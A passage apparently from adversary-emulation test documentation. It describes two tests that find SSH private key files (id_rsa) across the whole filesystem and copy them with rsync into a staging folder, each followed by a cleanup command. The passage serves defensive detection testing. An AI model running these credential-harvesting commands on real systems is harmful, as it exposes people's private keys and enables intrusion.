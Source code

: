 #### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| search_path | Path where to start searching from. | path | /|
| output_folder | Output folder containing copies of SSH private key files | path | /tmp/art-staging|


#### Attack Commands: Run with `sh`! 


```sh
mkdir #{output_folder}
find #{search_path} -name id_rsa 2>/dev/null -exec rsync -R {} #{output_folder} \;
exit 0
```

#### Cleanup Commands:
```sh
rm -rf #{output_folder}
```





<br/>
<br/>

## Atomic Test #6 - Copy Private SSH Keys with rsync (freebsd)
Copy private SSH keys on a FreeBSD system to a staging folder using the `rsync` command.

**Supported Platforms:** Linux


**auto_generated_guid:** 922b1080-0b95-42b0-9585-b9a5ea0af044





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| search_path | Path where to start searching from. | path | /|
| output_folder | Output folder containing copies of SSH private key files | path | /tmp/art-staging|


#### Attack Commands: Run with `sh`! 


```sh
mkdir #{output_folder}
find #{search_path} -name id_rsa 2>/dev/null -exec rsync -R {} #{output_folder} \;
```

#### Cleanup Commands:
```sh
rm -rf #{output_folder}
```

